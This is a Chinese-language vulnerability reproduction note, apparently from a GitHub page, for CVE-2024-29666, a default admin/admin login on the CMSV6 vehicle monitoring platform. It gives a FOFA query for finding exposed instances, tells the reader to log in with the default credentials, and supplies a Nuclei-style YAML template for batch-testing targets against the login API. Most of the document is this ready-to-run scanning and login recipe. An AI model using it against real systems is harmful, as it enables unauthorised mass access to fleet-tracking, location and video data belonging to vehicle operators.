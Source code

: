 **漏洞简介**

CMSV6平台是基于车辆位置信息服务和实时视频传输服务的创新技术和开放运营理念。为GPS运营商车辆硬件设备制造商、车队管理企业等车辆运营相关企业提供核心基础数据服务。该系统CMSV6 7.31.0.2、7.32.0.3版本中存在弱密码漏洞。

**漏洞复现**

步骤一：使用以下语法搜索资产并确定测试目标...



```
# 搜索语法body="/808gps/"
```

步骤二：直接使用admin/admin进行登录

批量脚本

```YAML
id: CVE-2024-29666

info:
  name: CMSV6车辆监控平台系统中存在弱密码漏洞
  author: ly
  severity: high
  description: CMSV6平台是基于车辆位置信息服务和实时视频传输服务的创新技术和开放运营理念。为GPS运营商车辆硬件设备制造商、车队管理企业等车辆运营相关企业提供核心基础数据服务。该系统CMSV6 7.31.0.2、7.32.0.3版本中存在弱密码漏洞。用户名：admin 密码：admin
  tags: cve-2024,cve
  metadata:
    max-request: 1
    fofa-query: body="/808gps/"
    verified: true

http:
  - method: GET
    path:
      - "{{BaseURL}}/StandardApiAction_login.action?account=admin&password=admin"
    headers:
      Accept-Encoding: gzip, deflate
      Accept-Language: en
    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(body, 'admin')"
```

